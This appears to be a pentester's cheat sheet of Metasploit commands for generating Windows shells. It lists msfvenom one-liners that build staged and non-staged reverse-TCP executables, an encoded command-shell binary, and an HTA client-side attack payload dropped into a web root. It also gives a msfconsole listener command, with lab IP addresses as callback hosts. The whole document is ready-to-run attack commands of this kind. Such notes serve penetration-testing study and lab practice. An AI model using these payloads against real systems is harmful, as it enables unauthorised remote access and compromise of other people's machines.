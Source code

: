 
#shells #reverseShells #bindshells 

### Simple Command shell

```bash
msfvenom -p windows/exec CMD="cmd.exe" -f exe bi -e x86/shikata_ga_nai -b "\x00\x06\x0A\x1A\x3B\xFF"
```

### Client Side Attack

```bash
sudo msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.119.126 LPORT=443 -f hta-psh -o /var/www/html/exploit.hta
```

### Simple reverse Shell(staged)

```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.45.164 LPORT=4445 -f exe -o met.exe
```

```bash
msfconsole -x "use exploit/multi/handler;set payload windows/x64/shell/reverse_tcp;set LHOST 192.168.45.187;set LPORT 443;run;"
```

Non staged

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.189 LPORT=4444 -f exe -o met.exe
```

- for 32 bit use windows/shelll/reverse_tcp (staged)
